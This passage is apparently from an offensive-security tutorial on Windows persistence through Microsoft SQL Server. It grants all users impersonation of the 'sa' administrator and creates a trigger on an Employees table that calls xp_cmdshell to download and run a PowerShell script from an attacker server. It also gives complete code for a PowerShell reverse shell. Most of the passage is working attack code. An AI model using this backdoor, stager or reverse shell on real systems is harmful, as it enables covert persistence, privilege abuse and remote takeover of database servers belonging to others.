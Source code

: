 After this, we must ensure that any website accessing the database can run `xp_cmdshell`. By default, only database users with the `sysadmin` role will be able to do so. Since it is expected that web applications use a restricted database user, we can gran privileges to all users to impersonate the `sa` user, which is the default database administrator.
```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```
After all of this, we finally configure a trigger. We start by changing to the HRDB database
```sql
USE HRDB
```
Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a .ps1 file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` DB.
```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://IP:8000/evilscript.ps1'')"';
```
Now that the backdoor is set up, let's create the `evilscript.ps1` that the trigger is going to download and execute, just like a stager, which in this case will contain a powershell reverse shell.
```powershell
$client = New-Object System.Net.Sockets.TCPClient("IP",4444);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```
Now, we will need to open two terminals, one that hosts the `evilscript.ps1` and the listener for the reverse shell.

# RESOURCES
- [Hexacorn - Windows Persistence](https://www.hexacorn.com/blog/category/autostart-persistence/)
- [PayloadsAllTheThings - Windows Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md)
- [Oddvar Moe - Windows Persistence Through RunOnceEx](https://oddvar.moe/2018/03/21/persistence-using-runonceex-hidden-from-autoruns-exe/)
- [PowerUpSQL](https://www.netspi.com/blog/technical/network-penetration-testing/establishing-registry-persistence-via-sql-server-powerupsql/)